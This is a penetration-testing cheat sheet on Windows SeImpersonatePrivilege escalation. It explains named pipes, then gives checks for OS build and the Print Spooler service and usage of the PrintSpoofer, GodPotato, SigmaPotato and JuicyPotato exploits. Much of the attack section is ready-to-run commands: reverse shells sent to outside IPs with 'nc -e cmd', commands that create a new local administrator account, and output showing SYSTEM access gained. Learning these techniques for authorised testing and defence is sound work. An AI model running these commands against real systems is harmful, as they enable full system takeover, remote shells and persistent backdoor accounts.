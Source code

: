 # SeImpersonatePrivilege

The `SeImpersonatePrivilege` allows a user to operate under another user's security context, typically by impersonating clients via mechanisms like **named pipes** or **RPC**.&#x20;

{% hint style="info" %}
**Named pipes** are a method of **inter-process communication (IPC)** in Windows. They let two separate processes—either on the same system or across a network—**send and receive data** as if they were reading/writing to a file. Think of a named pipe as a **virtual file** that one process (the server) creates and waits on, while another (the client) connects to it using a known name (like `\\.\pipe\mypipe`). Once connected, both processes can exchange data in real time.
{% endhint %}

The `SeImpersonate` privilege is normally assigned to Administrator accounts and built-in service accounts like `LOCAL SERVICE`, `NETWORK SERVICE`, and `SERVICE`. While rare for standard users, it is often accessible when gaining code execution through services like IIS, which commonly run under accounts that have it. In the context of **privilege escalation**, named pipes can be abused when a **privileged process connects** to a pipe controlled by a lower-privileged attacker. If the attacker has `SeImpersonatePrivilege`, they can **impersonate the connecting user**, effectively hijacking their permissions.

## PoCs

{% tabs %}
{% tab title="1. OS Build" %}
Check the OS build and map its version:

```powershell
>ver
Microsoft Windows [Version 10.0.18362.719]

>systeminfo
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.18362 N/A Build 18362
```

<figure><img src="../../../../../../.gitbook/assets/version_build_win.png" alt=""><figcaption></figcaption></figure>
{% endtab %}

{% tab title="2. Spooler" %}
For versions between `1809` - `1909` check if the Spooler service is runing:

```powershell
# Check if Spooler is running
>sc query Spooler

SERVICE_NAME: Spooler
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 1  STOPPED

> Get-Service -Name Spooler

Status   Name               DisplayName
------   ----               -----------
Stopped  Spooler            Print Spooler
```
{% endtab %}

{% tab title="3. PoC" %}
Check the table below:

<figure><img src="../../../../../../.gitbook/assets/potatoes_pocs.jpg" alt=""><figcaption></figcaption></figure>
{% endtab %}
{% endtabs %}

<table><thead><tr><th width="127">Exploit</th><th width="212">Target Mechanism</th><th>Typical Use Case / Notes</th><th>OS Compatibility</th></tr></thead><tbody><tr><td><strong>JuicyPotato</strong></td><td>COM objects implementing <code>IMarshal</code></td><td>Flexible; works with many COM objects. Use <code>-z</code> to test CLSID first.</td><td>Most Windows versions (Server 2008 SP1 and up, including 10/11)</td></tr><tr><td><strong>PrintSpoofer</strong></td><td>RPC / Named Pipes (Print Spooler API)</td><td>Fast and reliable; requires Print Spooler service to be running.</td><td>Windows 10 / 2016–2019 (some patched)</td></tr><tr><td><strong>GodPotato</strong></td><td>COM Server Hijack</td><td>Use when PrintSpoofer is patched; requires specific COM object.</td><td>Newer Windows (10/11)</td></tr><tr><td><strong>SigmaPotato</strong></td><td>Event Log Service / Spooler / WMI</td><td>Fallback when PrintSpoofer and GodPotato fail; depends on legacy service configuration.</td><td>Windows 10+ (better on newer builds)</td></tr></tbody></table>

{% tabs %}
{% tab title="PrintSpofer" %}
[PrintSpoofer](https://github.com/itm4n/PrintSpoofer) is a local privilege escalation exploit that abuses the `SeImpersonatePrivilege` to impersonate the `SYSTEM` account via a named pipe trick. It can be leveraged to sent a reverse shell or execute commands directly:

```powershell
# Reverse shell
PrintSpoofer.exe -c "nc.exe 10.10.13.37 1337 -e cmd"

# Command execution
PrintSpoofer.exe -i -c cmd
```

It can also be used to spawn a `SYSTEM` shell on the desktop, for instance, when logged in via an RDP session:

```powershell
# Check your session ID
C:\TOOLS>qwinsta
 SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE
>rdp-tcp           lab-user                  3  Active
 
# Spawn a new shell
C:\TOOLS>PrintSpoofer.exe -d 3 -c "powershell -ep bypass"
```
{% endtab %}

{% tab title="GodPotato" %}
[GodPotato](https://github.com/BeichenDream/GodPotato) is a local privilege escalation exploit that abuses `COM` and `SeImpersonatePrivilege` to impersonate `SYSTEM` by hijacking privileged tokens via named pipes.

```powershell
# Reverse shell
GodPotato -cmd "nc -t -e C:\Windows\System32\cmd.exe 192.168.1.102 2012"

# Command execution
GodPotato -cmd "cmd /c whoami"
```
{% endtab %}

{% tab title="SigmaPotato" %}
[SigmaPotato](https://github.com/tylerdotrar/SigmaPotato) is a local privilege escalation exploit that leverages the `SeImpersonatePrivilege` and the Event Log service to hijack a `SYSTEM` token through named pipe impersonation.

```powershell
# Reverse shell
./SigmaPotato.exe --revshell <ip_addr> <port>

# Command execution
./SigmaPotato.exe <command>
```

It can be also used to create a new local administrator:

```powershell
> .\sigmapotato.exe "net user dave4 Pass123! /add"
[+] Process Output:
The command completed successfully.


> .\sigmapotato.exe "net localgroup Administrators dave4 /add"
[+] Process Output:
The command completed successfully.

> Get-LocalGroupMember administrators
User        CLIENTWK220\dave4         Local
```
{% endtab %}

{% tab title="JuicyPotato" %}
[JuicyPotato](https://github.com/ohpe/juicy-potato) is a Windows privilege escalation tool that elevates service account privileges to `NT AUTHORITY\SYSTEM` by exploiting COM objects with `SeImpersonatePrivilege`. It instantiates vulnerable COM classes, triggers local NTLM authentication, and executes arbitrary commands with `SYSTEM`-level access. The tool allows specifying CLSID, port, and target executable, making it effective when traditional escalation methods are blocked or systems are hardened. Various CLSID lists can be found [here](https://github.com/ohpe/juicy-potato/tree/master/CLSID).

{% code overflow="wrap" %}
```bash
> Juicy.Potato.x86.exe -p c:\windows\system32\cmd.exe -t * -a "/c C:\wamp\www\nc.exe 192.168.45.241 80 -e cmd.exe" -l 80 -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}
Testing {9B1F122C-2982-4e91-AA8B-E071D54F2A4D} 80
....
[+] authresult 0
{3c6859ce-230b-48a4-be6c-932c0c202048};NT AUTHORITY\SYSTEM
​
[+] CreateProcessWithTokenW OK
```
{% endcode %}
{% endtab %}

{% tab title="RoguePotato" %}
WIP ([RoguePotato](https://github.com/antonioCoco/RoguePotato))
{% endtab %}
{% endtabs %}

